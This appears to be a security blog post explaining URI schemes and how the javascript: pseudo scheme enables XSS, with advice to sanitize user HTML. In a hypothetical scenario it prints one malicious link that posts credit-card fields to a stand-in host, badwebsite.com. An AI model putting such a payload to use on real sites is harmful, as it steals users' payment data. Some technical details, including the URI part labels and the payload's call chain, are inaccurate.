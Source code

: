 ```yaml
---
layout: post
title: Sanitize JavaScript Pseudo Scheme to Prevent XSS Attacks
---
```


Outside of the most commonly known and supported URI schemes (http:// and https://), most modern web browsers support a full roster of alternate and legacy URI schemes.

Here are some alternate URI schemes you may be familiar with already:

 - ftp://
 - mailto:
 - file://

And a few you probably haven't put much thought into, or didn't know existed:

 - javascript:
 - gopher://
 - news:
 - wais://
 - nntp://

URI schemes are the combination of a few separate parts, designed by third parties and adopted into major web browsers. All URI schemes have the following structure:

    and://my:stuff@test.com:8080/location/sublocation?key=things&stuff=keys#section2

Lets break this down into separate pieces before discussing where protocols can be a security issue.

`and://` - This is where the scheme is declared, and the browser first checks this in order to determine what to do with the following strings.

`my:stuff` - This is the "path" often used to express a hierarchy of data. You don't see this in very many URI's, but in older systems a scheme might declare username and password for an email as `joe:mypassword3`.

`@test.com` - Is the host, you see this most frequently in http:// and https:// URI's. This is used to identify a relevant location.

`:8080` - Here we declare the port. All websites and servers require a port to be declared, but you don't see it often in http:// or https:// URI's because browsers default to port 80 (invisibly) if no other port is declared in the URI.

`location/sublocation` - Refers to a file location on the host.

`?key=things&things=keys` - The query, used to pass through conditional data in the URI as if it was a variable.

`#section` - The URI fragment, also used to pass through conditional data. Typically used to preserve state on the client.

Why do we need to worry about URI Schemes?
------------------------------------------

As you probably have guessed, the URI scheme is so flexible that many companies have taken advantage of it to produce their own schemes which have than been adopted into web browsers. Many of these schemes are still supported for legacy reasons, but have not been updated in years or even decades.

The most notorious of this, is the "**JavaScript Pseudo Scheme**" - a scheme that allows you to pass through a string of JavaScript which will be executed in it's own context but with full access to the current DOM and all of it's nodes.

You've probably seen this in code before, but not recognized it. The most common use case is:

`<a href="javascript:void(0);">click me</a>`

This trick has been used to create links that did not adhere to normal link behavior in many browsers. Really what's happening is the link is executing the statement `void(0);` which returns `undefined`. Typically a browser will reload the page if a link to itself is clicked, but if the link returns undefined the browser will halt execution. Now you have a link to the current page which can call other JavaScript without causing a page reload.

This use case is generally harmless.

Now lets consider another use case, which you can imagine is usable on many insecure websites and apps. Since you have access to arbitrary JavaScript code execution, you can traverse the DOM tree and collect whatever data you desire. 

Consider the following scenario:


----------

Jon is a hacker who is targeting a popular eCommerce site called BuyStuffNow.

BuyStuffNow is like Amazon, except it allows you to buy from one product page without ever leaving (lots of apps do this). The order process goes like this: click a product -> type in credit card -> click purchase to complete transaction.

Below the product is a comments section, where guests can comment on the item and give reviews / warnings to each other. 

Jon devises a plan to craft a malicious link to put in his BuyStuffNow comment. He writes a legitimate review, with a legitimate link:

"Hi friends. IF YOU ARE GOING TO BUY THIS PLEASE READ THIS REVIEW FIRST. I used the product for three hours, than **this** happened."

The link will be constructed as such:

    <a href="javascript:console.log(new XMLHttpRequest().open('POST', 'http://badwebsite.com').send(document.querySelector('creditCardInfo'));window.open('http://www.legitreview.com/product');">this</a>

To a uneducated user, this is simply a link to a legitimate review on another website. The user may enter their credit card information and than decide to read the review - in which case their credit card information is sent to a malicious web server and stored for malicious uses.

----------

Because the JavaScript pseudo scheme allows arbitrary JavaScript execution with full access to current DOM nodes, any sensitive data on the page can be recorded and sent elsewhere. This is only one possible scenario where the JavaScript pseudo scheme can present an issue. It could also be used for injecting an entire page of scripts into the current tree or replacing the current DOM with an iframe.

In order to prevent this, we need to ensure wherever user submitted HTML is rendered we are sanitizing or purifying the input. Remove any instances of the JavaScript pseudo scheme so they don't have any capacity for creating malicious links or executing malicious JavaScript. Alternatively, create your own markup language or use an existing one like markdown to better ensure your user's security.
